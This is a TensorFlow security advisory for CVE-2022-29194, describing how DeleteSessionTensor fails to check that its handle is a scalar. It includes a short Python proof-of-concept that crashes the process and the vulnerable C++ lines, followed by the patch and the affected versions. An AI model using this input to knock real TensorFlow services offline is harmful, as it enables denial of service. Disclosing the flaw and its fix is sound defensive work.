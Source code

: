 ## TFSA-2022-063: Missing validation causes denial of service via `DeleteSessionTensor`

### CVE Number
CVE-2022-29194

### Impact
The implementation of [`tf.raw_ops.DeleteSessionTensor`](https://github.com/galeone/tensorflow/blob/f3b9bf4c3c0597563b289c0512e98d4ce81f886e/tensorflow/core/kernels/session_ops.cc#L128-L144) does not fully validate the input arguments. This results in a `CHECK`-failure which can be used to trigger a denial of service attack:

```python
import tensorflow as tf

handle = tf.constant("[]", shape=[0], dtype=tf.string)
tf.raw_ops.DeleteSessionTensor(handle=handle)
```

The code assumes `handle` is a scalar but there is no validation for this:

```cc
    const Tensor& handle = ctx->input(0);
    const string& name = handle.scalar<tstring>()();
```

### Patches
We have patched the issue in GitHub commit [cff267650c6a1b266e4b4500f69fbc49cdd773c5](https://github.com/galeone/tensorflow/commit/cff267650c6a1b266e4b4500f69fbc49cdd773c5).

The fix will be included in TensorFlow 2.9.0. We will also cherrypick this commit on TensorFlow 2.8.1, TensorFlow 2.7.2, and TensorFlow 2.6.4, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/galeone/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by Neophytos Christou from Secure Systems Lab at Brown University.
